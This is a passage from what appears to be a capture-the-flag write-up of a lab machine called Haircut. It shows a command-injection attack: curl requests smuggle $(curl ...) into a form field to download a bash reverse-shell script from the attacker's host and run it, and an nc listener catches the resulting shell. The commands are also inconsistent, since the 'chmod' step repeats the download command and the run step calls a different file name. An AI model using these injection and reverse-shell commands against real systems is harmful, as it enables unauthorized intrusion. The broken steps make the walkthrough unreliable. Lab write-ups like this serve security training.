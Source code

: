 

But at `tcpdump` I get pings:



    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    21:04:58.132878 IP 10.10.10.24 > 10.10.14.15: ICMP echo request, id 2117, seq 1, length 64
    21:04:58.132924 IP 10.10.14.15 > 10.10.10.24: ICMP echo reply, id 2117, seq 1, length 64



Replacing `$([command])` with `` `[command]` `` also worked. All of the
reverse shells I typically use contain other filtered characters. But I
can use the command injection to upload a shell:



    #!/bin/bash

    bash -i >& /dev/tcp/10.10.14.15/443 0>&1



Now I'll upload it to Haircut with:



    root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(curl 10.10.14.15/shell.sh -o /tmp/0xdf)' --data-urlencode 'submit=go'



That will reach out to my webserver, download `shell.sh` to `/tmp/0xdf`.
Now I'll use the same technique to `chmod` to make the file executable:



    root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(curl 10.10.14.15/shell.sh -o /tmp/0xdf)' --data-urlencode 'submit=go'



And one last time to run it:



    root@kali# curl http://10.10.10.24/exposed.php --data-urlencode 'formurl=10.10.14.15/$(/tmp/rev)' --data-urlencode 'submit=go'



At `nc`:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.24.
    Ncat: Connection from 10.10.10.24:43906.
    bash: cannot set terminal process group (1225): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@haircut:~.md$
